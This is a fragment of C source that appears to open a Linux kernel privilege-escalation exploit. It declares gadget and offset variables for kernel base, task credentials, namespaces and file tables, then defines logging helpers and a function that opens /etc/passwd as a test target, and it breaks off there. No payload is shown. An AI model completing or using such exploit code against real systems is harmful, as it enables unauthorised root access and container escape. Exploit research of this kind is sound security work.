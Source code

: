 ```c
// Gadgets and offsets
uint64_t g_kern_base = 0;
uint64_t g_init_task = 0;
uint64_t g_target_task = 0;
uint64_t g_our_task = 0;
uint64_t g_cred_what = 0;
uint64_t g_nsproxy_what = 0;
uint64_t g_cred_where = 0;
uint64_t g_real_cred_where = 0;
uint64_t g_nsproxy_where = 0;
uint64_t g_files = 0;
uint64_t g_fdt = 0;
uint64_t g_file_array = 0;
uint64_t g_file_addr = 0;
uint64_t g_pipe_buf = 0;
uint64_t g_scratch = 0;
uint64_t g_fops = 0;

void err(const char* format, ...)
{
    if (!format) {
        exit(EXIT_FAILURE);
    }

    fprintf(stderr, "%s", "[!] ");
    va_list args;
    va_start(args, format);
    vfprintf(stderr, format, args);
    va_end(args);
    fprintf(stderr, ": %s\n", strerror(errno));

    sleep(5);
    exit(EXIT_FAILURE);
}

void info(const char* format, ...)
{
    if (!format) {
        return;
    }
    
    fprintf(stderr, "%s", "[*] ");
    va_list args;
    va_start(args, format);
    vfprintf(stderr, format, args);
    va_end(args);
    fprintf(stderr, "%s", "\n");
}

// Get FD for test file
int get_test_fd(int victim)
{
    // These are just different for kernel debugging purposes
    char *file = NULL;
    if (victim) { file = "/etc//passwd"; }
    else { file = "/etc/passwd"; }

    int fd = open(file, O_RDONLY);
    if (fd < 0)
    {
        err("`open()` failed, file: %s", file);
    }

```
